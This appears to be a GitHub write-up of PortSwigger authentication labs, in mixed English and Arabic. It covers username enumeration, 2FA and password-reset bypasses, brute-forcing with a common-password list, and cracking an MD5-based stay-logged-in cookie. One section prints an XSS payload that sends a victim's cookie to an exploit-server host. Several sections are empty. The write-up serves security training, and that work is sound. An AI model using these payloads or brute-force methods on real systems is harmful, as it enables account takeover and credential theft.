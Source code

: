 # Authentication vulnerabilities



<details>
  <summary>Lab: Username enumeration via different responses</summary>

> ### try invalid usernaem ``admin``

<img width="1030" height="436" alt="image" src="https://github.com/user-attachments/assets/ae7dc0ef-29c0-4040-95a1-7011a3012721" />

> ### try to bruteforce username and match ``Invalid username``

<img width="1604" height="553" alt="image" src="https://github.com/user-attachments/assets/25abcbc9-5139-4067-b66f-27aa66b63cb8" />

<img width="1277" height="469" alt="image" src="https://github.com/user-attachments/assets/2d856d21-4f13-420d-a978-5b3fd040ab66" />

### so now username is 

```
user
```

---

> ### now bruteforce the password:

<img width="1016" height="358" alt="image" src="https://github.com/user-attachments/assets/65292c04-6634-4f0a-befa-d58f1a5474c4" />

so passowrd is :

```
iloveyou
```

<img width="1341" height="617" alt="image" src="https://github.com/user-attachments/assets/77519529-471c-40f0-9f0a-7c447c705326" />





  
</details>






<details>
  <summary>Lab: 2FA simple bypass</summary>


<img width="1105" height="319" alt="image" src="https://github.com/user-attachments/assets/7fbed2c2-8e4d-4fd5-bbc8-7d820821a746" />


  
</details>




<details>
  <summary>Lab: Password reset broken logic</summary>


- > click reset password and check email box you will found link click on it if you try to remove token error will apper
  >
  > write new password and intercept the request now you can remove token and change user to carlos 



  
</details>





<details>
  <summary>Lab: Username enumeration via subtly different responses</summary>

```
✅ 4.Username enumeration via subtly different responses
الثغرة: التطبيق بيرجع رسائل خطأ مختلفة بشكل طفيف جدًا حسب إذا كان اليوزر موجود أو مش موجود.
مثلًا:

Invalid username or password. ← لو اليوزر مش موجود.

Invalid password or password ← لو اليوزر موجود.

الرسالة شكلها شبه بعض لكن فيها فرق بسيط جدًا، والمهاجم ممكن يلاحظه.
```



  
</details>







<details>
  <summary>Lab: Username enumeration via response timing</summary>

```
✅ 5. Username enumeration via response timing
الثغرة: الاختلاف في زمن الاستجابة لما يكون اليوزر موجود.

الاستغلال: لو زمن الاستجابة أطول مع يوزر معين → غالبًا موجود (لأن الباسورد بيتشيك بعده).


```

  
</details>






<details>
  <summary>Lab: Broken brute-force protection, IP block</summary>


```
افتح Burp Suite واعمل Proxy للـ login page.

جرب تدخل بيانات غلط 3 مرات وراء بعض:

لاحظ إن بعد 3 محاولات فاشلة بيظهر block للـ IP (مثلاً رسالة error أو delay).

جرب بعد محاولتين فاشلتين تعمل login ناجح بحسابك (wiener:peter):

هتلاحظ إن العداد بيرجع للصفر وتقدر تكمل المحاولات بدون block.
```

### ``usernames``

```
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
```

### ``passwords``

```
peter
123456
peter
password
peter
12345678
peter
qwerty
peter
123456789
peter
12345
peter
1234
peter
111111
peter
1234567
peter
dragon
peter
123123
peter
baseball
peter
abc123
peter
football
peter
monkey
peter
letmein
peter
shadow
peter
master
peter
666666
peter
qwertyuiop
peter
123321
peter
mustang
peter
1234567890
peter
michael
peter
654321
peter
superman
peter
1qaz2wsx
peter
7777777
peter
121212
peter
000000
peter
qazwsx
peter
123qwe
peter
killer
peter
trustno1
peter
jordan
peter
jennifer
peter
zxcvbnm
peter
asdfgh
peter
hunter
peter
buster
peter
soccer
peter
harley
peter
batman
peter
andrew
peter
tigger
peter
sunshine
peter
iloveyou
peter
2000
peter
charlie
peter
robert
peter
thomas
peter
hockey
peter
ranger
peter
daniel
peter
starwars
peter
klaster
peter
112233
peter
george
peter
computer
peter
michelle
peter
jessica
peter
pepper
peter
1111
peter
zxcvbn
peter
555555
peter
11111111
peter
131313
peter
freedom
peter
777777
peter
pass
peter
maggie
peter
159753
peter
aaaaaa
peter
ginger
peter
princess
peter
joshua
peter
cheese
peter
amanda
peter
summer
peter
love
peter
ashley
peter
nicole
peter
chelsea
peter
biteme
peter
matthew
peter
access
peter
yankees
peter
987654321
peter
dallas
peter
austin
peter
thunder
peter
taylor
peter
matrix
peter
mobilemail
peter
mom
peter
monitor
peter
monitoring
peter
montana
peter
moon
peter
moscow

```



<img width="1676" height="794" alt="image" src="https://github.com/user-attachments/assets/9922e3be-dddc-49af-a0f1-7e6fb80bf588" />


```
carlos : daniel
```

<img width="1313" height="602" alt="image" src="https://github.com/user-attachments/assets/6ef4ebcb-564a-410c-ab9a-39c3a6ce3213" />





  
</details>








<details>
   <summary>Lab: Brute-forcing a stay-logged-in cookie</summary>


### 🎱``8 Lab: Brute-forcing a stay-logged-in cookie``

- > first login with ``wiener:peter`` with stay logged in option and inturcept the request
  >
  > ``found``
  >
  > <img width="1167" height="424" alt="image" src="https://github.com/user-attachments/assets/098dcadc-95fb-436c-ae1d-fde1290cc3a4" />
  >
  > ```
  > Cookie: session=X2AecSWQYF3pEDwqbjSuG6FYLHSV6IGq; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
  > ```
  >
  > as you see ``stay-logged-in`` is decoded in **``base64``** when decode it found:
  >
  > ```
  > wiener:51dc30ddc473d43a6011e9ebba6ca770
  > ```
  >
  > ``structure of cookies``
  >
  > ```
  > base64(username:MD5(password))
  > ```
  >
  > ohh so this cookie have username and passowrd hashed in ``MD5`` after decrypt it found the password **``peter``**
  >
  > **``order is important``**
  >
  > <img width="1878" height="742" alt="image" src="https://github.com/user-attachments/assets/9f556feb-f647-4080-af43-767f6e5d969c" />
  > 
  > ![image](https://github.com/user-attachments/assets/d8ed9b02-4be1-4c3d-b40b-d4e1d4d1b8d9)
  >
  > 
  > 


   
  
</details>



















<details>
  <summary>Lab: Offline password cracking</summary>


### 9 offline password cracking 

- > first login with my username and passowrd ``wiener:peter`` with stay login button 
  >
  > found in cookie that is encoded in base64
  >
  > ``base64(username:md5(password))``
  >
  > now we know that comments is vuln to xss you will steal cookie of ``carlos`` by using xss
  >
  > in comment put
  >
  > ```
  > <script>document.location='https://exploit-0a1f000d0421311d80d80c4801090020.exploit-server.net/exploit'+document.cookie</script>
  > ```
  >
  > after that go to exploit server then logs you will find cookies of carlos
  >
  > ``Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz``
  >
  > ``carlos:26323c16d5f4dabff3bb136f2460a943``
  >
  > ``carlos:onceuponatime``

  
</details>
















<details>
  <summary>Lab: Password reset poisoning via middleware</summary>


1. login with ``wiener:peter``
2. signout
3. login with ``carlos``
4. click forget passowrd

  
</details>

































<details>
  <summary>Lab: Username enumeration via account lock</summary>






  
</details>






























----- 
















































